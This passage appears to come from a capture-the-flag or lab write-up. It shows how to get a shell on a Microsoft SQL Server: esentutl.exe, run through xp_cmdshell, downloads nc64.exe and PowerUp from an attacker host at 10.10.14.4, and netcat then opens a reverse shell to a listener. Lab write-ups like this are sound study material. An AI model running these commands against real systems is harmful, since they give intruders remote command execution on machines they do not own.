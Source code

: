 {{< highlight bash >}}
SQL> xp_cmdshell esentutl.exe /y \\10.10.14.4\files\nc64.exe /d C:\Users\mssql-svc\nc64.exe /o
SQL> xp_cmdshell esentutl.exe /y \\10.10.14.4\files\powerup.ps1 /d C:\Users\mssql-svc\powerup.ps1 /o
{{< / highlight >}}

![download_lolbin](download_lolbin.png)

Now the "reverse-shell":

{{< highlight bash >}}
-----------Terminal 1--------------
$ nc -lvnp 9001

-----------Terminal 2--------------
SQL> xp_cmdshell C:\Users\mssql-svc\nc64.exe -e cmd 10.10.14.4 9001
{{< / highlight >}}

![reverse_shell](reverse_shell.png)
